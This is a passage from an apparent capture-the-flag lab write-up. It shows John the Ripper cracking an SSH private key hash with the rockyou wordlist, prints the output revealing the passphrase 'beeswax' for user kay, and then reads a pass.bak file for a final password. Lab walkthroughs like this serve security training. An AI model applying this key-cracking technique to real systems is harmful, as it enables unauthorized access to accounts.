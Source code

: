 The tool ```ssh2john``` had an error with python3 when I tried it, but there are web tools that use it such as [Private Key SSH RSA DSA OpenSSH Hash Extractor | Online Hash Crack](https://www.onlinehashcrack.com/tools-private-key-ssh-rsa-dsa-openssh-hash-extractor.php). 

Regardless, once we get the hash we can run:

```shell
john key_hash.txt --wordlist=/path/to/rockyou.txt
Warning: detected hash type "SSH", but the string is also recognized as "ssh-opencl"
Use the "--format=ssh-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 16 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (?)
1g 0:00:00:01 DONE (2022-06-02 02:46) 0.6060g/s 8691Kp/s 8691Kc/s 8691KC/s  0 0 0..*7¡Vamos!
Session completed
```

Which revelas the password for kay is ```beeswax```!

> What is the final password you obtain?

We might recall we saw a ```pass.bak``` file in kay's home directory before but we couldn't read it.

```shell
cat pass.bak
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

---














